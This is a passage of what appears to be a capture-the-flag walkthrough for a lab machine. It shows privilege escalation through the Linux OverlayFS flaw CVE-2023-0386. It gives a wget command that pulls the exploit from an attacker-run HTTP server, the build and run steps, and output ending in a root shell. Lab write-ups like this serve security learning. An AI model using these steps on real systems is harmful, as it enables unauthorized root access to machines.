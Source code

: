 > **Note:** `CVE-2023-0386` is a critical vulnerability in the **OverlayFS** subsystem of the Linux kernel that could allow a local unprivileged
> user to escalate their privileges to **root** level. It affects Linux kernels prior to `6.2` and was patched in January 2023,
> and publicly disclosed in March 2023.

### CVE-2023-0386 - Linux Kernel

> exploit for this CVE: [CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)

> I clone the exploit to myself. Then I launch **http.server** and transfer all the files to the victim's machine.

```bash

wget -r -np -nH --cut-dirs=1 -R "index.html*" http://10.10.14.15:1111/CVE-2023-0386

```

> Compile files:

```bash

make all

```

> Next, you need to connect a second terminal window for the `admin` user. On one terminal, I run the executable files `./fuse` and `./overcap/lower` and `./gc`.
> On the second terminal, the exploit itself is `./exp`.

> Terminal `one`
```bash

admin@2million:~$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```
> Terminal `two`
```bash

admin@2million:~$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 May 25 19:57 .
drwxrwxr-x 6 root   root     4096 May 25 19:57 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~#

root@2million:~# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

root@2million:~# cd /root/

root@2million:/root# ls -lah
total 48K
drwx------  8 root root 4.0K May 25 15:27 .
drwxr-xr-x 19 root root 4.0K Jun  6  2023 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Oct 15  2021 .bashrc
drwx------  2 root root 4.0K Jun  6  2023 .cache
drwxr-xr-x  3 root root 4.0K Jun  6  2023 .cleanup
drwx------  4 root root 4.0K Jun  6  2023 .gnupg
```